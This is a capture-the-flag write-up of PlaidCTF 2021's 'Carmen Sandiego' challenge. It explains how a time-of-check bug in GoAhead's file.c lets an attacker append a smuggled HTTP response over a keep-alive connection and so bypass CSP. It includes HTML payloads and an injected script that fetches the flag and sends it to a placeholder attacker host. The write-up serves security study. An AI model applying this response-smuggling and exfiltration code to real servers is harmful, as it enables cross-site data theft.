 # PlaidCTF 2021 

## Carmen Sandiego

### Setup

![](./setup.png)

As described in the diagram above, we somehow had to get the flag through the victim visiting the URL supplied by us. Because of the cookie, it would probably have to be on the same origin as the flag, so if we could get XSS somehow, we get the flag. However, there was a quite strict CSP that forbid script execution except for scripts with the correct nonce.

### 1. Season

The first season had an unintended solution where we could execute JavaScript by simply giving URLs that started with `javascript:...`
and it would be executed on the page that was open at the time, which conveniently was the index page of the IoT Hub.

### 2. Season

Season 2 fixed this mistake by only allowing http(s) urls and creating a new page.

The README.md file gave us a hint where to look: 
```
The intended solution uses a bug in `file.c` of GoAhead.  (Feel free to look for bugs elsewhere though!)
```

Looking throught the file, we noticed one thing:

```c
websWriteHeaders(wp, info.size, 0);

...

if (info.size > 0) {
    websSetBackgroundWriter(wp, fileWriteEvent);
} else {
    websDone(wp);
}

```
 
 
 ```c
 static void fileWriteEvent(Webs *wp)
{
   ...
    while ((len = websPageReadData(wp, buf, ME_GOAHEAD_LIMIT_BUFFER)) > 0) {
        ...
    }
    ...
}

 ```
  ```c
PUBLIC ssize websPageReadData(Webs *wp, char *buf, ssize nBytes)
{
    ...
    return websReadFile(wp->docfd, buf, nBytes);
}


 ```
 
 ```c
 PUBLIC ssize websReadFile(int fd, char *buf, ssize size)
{
    ...
    return read(fd, buf, (uint) size);
    ...
}
 ```
 
 There is a TOCTOU (Time-of-check to time-of-use) problem, the content length gets sent first, but that size is not used as a limit for the sending, so if we write to the file after the content length has been set, we can write more than the content length specified.
 
We further notice that HTTP/1.1 with `Connection: keep-alive` is being used. So could we just append more HTTP requests, kind of like with HTTP request smuggling, but with responses instead?

No better time to try than now, and sure enough, after some failed tries, chrome finally mistook one of our appended responses as another one. 

![](./success.png)

This was achieved by uploading a html payload like this for the page the victim is going to visit:

```html
<html>
    <body>
        <img src="http://<your_machine>/start_of_prep"/> <!-- Debugging -->
        <Iframe src='./camone?0'></iframe>
        <Iframe src='./camone?1'></iframe>
        <Iframe src='./camone?2'></iframe>
        <Iframe src='./camone?3'></iframe>
        <Iframe src='./camone?4'></iframe>
        <Iframe src='./camone?5'></iframe>
        <Iframe src='./camone?6'></iframe>
        <Iframe src='./camone?7'></iframe>
        <img src="http://<your_machine>/end_of_prep"/> <!-- Debugging -->
    </body>
</html>
```

and uploading a payload for the file that is going to get replaced while it is being served.

Payload A
```html
<html>
    <body>
        <img src="http://<your_machine>/start_of_cam_one_a"/> <!-- Debugging -->
        many AAAA...
        <img src="http://<your_machine>/end_of_cam_one_a"/> <!-- Debugging -->
    </body>
</html>
```


Payload B
```html
<html>
    <body>
        <img src="http://<your_machine>/start_of_cam_one_b"/> <!-- Debugging -->
        fewer BBBB...
        <img src="http://<your_machine>/end_of_cam_one_b"/> <!-- Debugging -->
    </body>
</html> <!-- note that the new response has to start in a new tcp packet -->
HTTP/1.1 200 OK
Content-Length: ...
Connection: keep-alive
<html>
    <body>
        Hello World!
        <script>
            fetch("/cgi-bin/flag").then(r => r.text()).then(flag => fetch("http://<your_machine>/flag?" + flag))
        </script>
    </body>
</html>
...
```



While chrome is downloading the payload a for the first few iframes, we replace the file with payload B so that the server now sends more than it has announced in the content-length header. Chrome will only open a certain number of connections to the same origin, so by making many requests, more requests would be made through the same connection and mistake our appended HTML response as the requested one later.

The injected HTTP response contains a simple javascript payload extracting the flag. Because we have full control over the HTTP headers, we don't have to worry about CSP.

(The `<img .../>` were for debugging on the server and helped us to properly time the replacement of the payload)

This would give us the first flag of Season two. For the second flag, the service which we used to upload the files was changed to only allow more restricted input. We did not get the second flag.

While this was probably the intended way of solving this challenge, another team found [a different one by exploiting the renderer](https://ptr-yudai.hatenablog.com/entry/2021/04/19/140802) :o 





